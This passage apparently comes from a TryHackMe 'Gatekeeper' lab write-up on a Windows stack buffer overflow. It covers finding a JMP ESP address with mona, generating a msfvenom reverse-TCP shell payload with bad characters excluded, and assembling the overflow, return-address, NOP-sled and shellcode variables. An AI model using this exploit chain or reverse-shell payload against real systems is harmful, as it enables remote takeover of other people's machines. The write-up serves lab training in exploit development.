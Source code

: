 ```text
!mona jmp -r esp -cpb "\x00\x0a"
```

Here we are saying search memory for any program that has JMP ESP and excludes our known bad characters. As you would expect the gatekeeper.exe we have been exploiting contains what we need:

![gatekeeper-jmp-esp](/assets/images/2021-03-17-22-50-15.png)

We need to convert the address from HEX to Little Endian:

```text
080414C3 <--> \xc3\x14\x04\x08
```

## Generate Payload

Our final task is to create our payload. For this we can use MSFVenom:

```text
root@kali:/home/kali/thm/gatekeeper# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.19 LPORT=1234 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xdb\xce\xba\xb5\xcc\xb7\x15\xd9\x74\x24\xf4\x5d\x33\xc9\xb1"
<SNIP>
"\x80\x8b\x18\xed\xa1\x99";
```

## Assemble Script

Now we have everything needed for our script, so let's put it together:

```text
prefix = ""
offset = 146
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"
padding = "\x90" * 16
payload = (
"\xdb\xce\xba\xb5\xcc\xb7\x15\xd9\x74\x24\xf4\x5d\x33\xc9\xb1"
<SNIP>
"\x80\x8b\x18\xed\xa1\x99"
)
postfix = ""
```
